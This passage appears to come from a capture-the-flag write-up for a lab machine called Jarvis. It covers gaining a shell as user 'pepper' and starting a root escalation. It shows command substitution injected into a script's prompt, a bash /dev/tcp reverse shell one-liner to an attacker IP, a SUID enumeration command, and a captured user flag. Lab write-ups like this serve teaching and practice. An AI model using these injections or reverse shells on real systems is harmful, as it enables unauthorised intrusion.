 ```console
www-data@jarvis:/var/www/Admin-Utilities$ sudo -u pepper ./simpler.py -p
```

Enter `$(/bin/bash)` into the prompt for the `-p` command to spawn a shell as the `pepper` user. What was odd is that this new shell did not return anything to the screen. Meaning commands like `ls`, `pwd`, and `cat` returned nothing. Perhaps someone else could explain why this was for me? 

Anyway, we can spawn another reverse shell as the `pepper` user now though via `bash -i >& /dev/tcp/10.10.14.61/6666 0>&1`. With this shell we can grab `cat user.txt`.

![user flag.](/wp-content/uploads/2019/07/jarvis/user_flag.png)
**Figure 10:** user flag ***2afa36c4f05b37b34259c93551f5c44f***.


## Root Flag
In order to escalate our privileges from `pepper` to `root`, we first need to check which binaries have the SUID bit flipped, meaning they run as the owner, not the user who started them.

```console
find / -perm -u=s -type f 2>/dev/null
```
The above returns many programs from the `/bin` directory. So lets check up the permissions of the binaries in that directory.
